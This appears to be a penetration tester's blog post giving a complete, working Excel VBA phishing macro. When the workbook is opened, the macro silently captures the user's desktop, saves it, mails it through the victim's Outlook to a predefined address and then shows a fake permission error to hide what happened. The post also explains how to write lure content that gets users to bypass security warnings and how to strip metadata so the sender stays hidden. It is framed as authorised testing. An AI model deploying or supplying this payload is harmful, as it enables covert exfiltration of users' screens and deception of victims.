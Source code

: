 ```yaml
---
title:  "Phishing for Screenshots (Excel Macro)"
date:   2018-12-02 12:00:00
published: true
---
```


When performing social engineering engagements, it's tricky to find a payload that demonstrates the gravity of the attack without going full-on red team and shelling boxes. I've developed something for a recent test that I think finds a nice balance - an Excel macro that will take a screenshot of the user's desktop and leverage their local Outlook profile to email it back to a predefined address.

The target will need to click past either one or two warnings before the macro is executed, so you'll want to create a template that looks enticing enough to take a risk. Something like this might do the trick:

![finance data](/images/post-phishing-screenshots/spreadsheet.png)


# Macro - Workflow

Currently, the macro works like this:

1.) Alerts are disabled (in case of error, we don't want to let the user know).<br>
2.) The 'print screen' key is pressed.<br>
3.) A new tab is added to the spreadsheet.<br>
4.) The screenshot is pasted into the new tab.<br>
5.) This new version of the spreadsheet is saved to c:\users\public.<br>
6.) The additional tab is deleted.<br>
7.) The default Outlook profile is used to send the saved spreadsheet to a defined email address.<br>
8.) Application alerts are enabled.<br>
9.) An alert box pops up with an error "Sorry, your account is not authorised to view this data".<br>

At this point, the user now has a non-macro-enabled version of the spreadsheet open with no trace of the screenshot. They will likely assume there is some sort of permission error and move on to something else. I have also seen cases where they forward it to other users, asking if it works for them. Bonus!

# How to Use
Implementing the macro in a spreadsheet is pretty straightforward. Just do the following:

1.) Build a spreadsheet with some juicy looking content, obfuscated in some way to entice the user to ignore security warnings.<br>
2.) Hit Alt-F11 to bring up the Visual Basic editor.<br>
3.) Double-click on "ThisWorkbook" in the tree view on the left.<br>
4.) Paste the raw macro code in on the right.<br>
5.) The save file as macro-enabled (.xlsm)<br>
6.) Protect (lock) all the cells, to provide a bit of cover for your deception (Protect Sheet/Workbook in the Review tab for Excel 2016 - set a strong password).<br>
7.) Save again.<br>

When you receive hits on the document, open the attachment and look in spreadsheet's second tab. You'll have a screenshot of the user's desktop. Sometimes this contains only the spreadsheet itself in full-screen, but this will at least have the user's name in the title bar. If the user has dual monitors, you'll see both of them included.

Note that when you are testing the document, after you open and click to enable and run macros, the macro-enabled spreadsheet will disappear (see workflow above) and you will have only a standard spreadsheet left open. You'll need to do any editing of the macro prior to enabling and running.


# Important Notes
This is not designed to be stealthy - the Outlook 'Sent Items' folder will contain this message. Also, Excel spreadsheets can contain some sneaky metadata that may expose your identity. I would use this on authorised phishing campaigns or USB drop, but maybe not a red team exercise meant to leave no traces.

Here are a few things you can do to limit your exposure:
- Use an email address not easily connected to your real name.
- Remove all Office metadata both using Windows explorer AND manually by converting to a zip, deleting sensitive strings, and swapping back. Explorer unfortunately doesn't remove it all.

# The Code
Here is the raw macro. You'll need to update 'EMAIL_TO' and 'EMAIL_SUBJ' with your own values.


I'm sure this macro can be improved, so please open an issue on the [GitLab repository](https://gitlab.com/initstring/pentest/blob/master/phishing/screenshot-macro) here if you have an idea.

```
'This document is part of an authorised, simulated phishing campaign.
'If you are reading this - nice work!

Option Explicit


Private Declare Sub keybd_event Lib "user32" (ByVal bVk As Byte, ByVal _
  bScan As Byte, ByVal dwFlags As Long, ByVal dwExtraInfo As Long)

Private Const VK_SNAPSHOT = &H2C
Private Const EMAIL_TO = "phisher@phishingdomain.com"
Private Const EMAIL_SUBJ = "XLS pingback!"

Sub PrintScreen()
    Application.Wait (Now + TimeValue("0:00:01"))
    keybd_event VK_SNAPSHOT, 0, 0, 0
    Application.Wait (Now + TimeValue("0:00:01"))
End Sub

Sub ExportFile()
    Sheets.Add After:=ActiveSheet
    ActiveSheet.PasteSpecial Format:="Bitmap", Link:=False, DisplayAsIcon:= _
        False
    ActiveWorkbook.SaveAs Filename:= _
        "c:\users\public\export.xlsx", _
        FileFormat:=xlOpenXMLWorkbook, CreateBackup:=False
    ActiveWindow.SelectedSheets.Delete
End Sub

Sub Send_Email_Using_VBA()
Dim Email_Subject, Email_Send_From, Email_Send_To, _
Email_Cc, Email_Bcc, Email_Body As String
Dim Mail_Object, Mail_Single As Variant
Email_Subject = EMAIL_SUBJ
Email_Send_To = EMAIL_TO
Email_Body = "Files are attached"
Set Mail_Object = CreateObject("Outlook.Application")
Set Mail_Single = Mail_Object.CreateItem(0)
With Mail_Single
.Subject = Email_Subject
.To = Email_Send_To
.Body = Email_Body
.Attachments.Add "c:\users\public\export.xlsx"
.send
End With
End Sub

Private Sub Workbook_Open()
Application.DisplayAlerts = False
PrintScreen
ExportFile
Send_Email_Using_VBA
Application.DisplayAlerts = True
MsgBox "Sorry, your account is not authorised to view this data."
End Sub
```
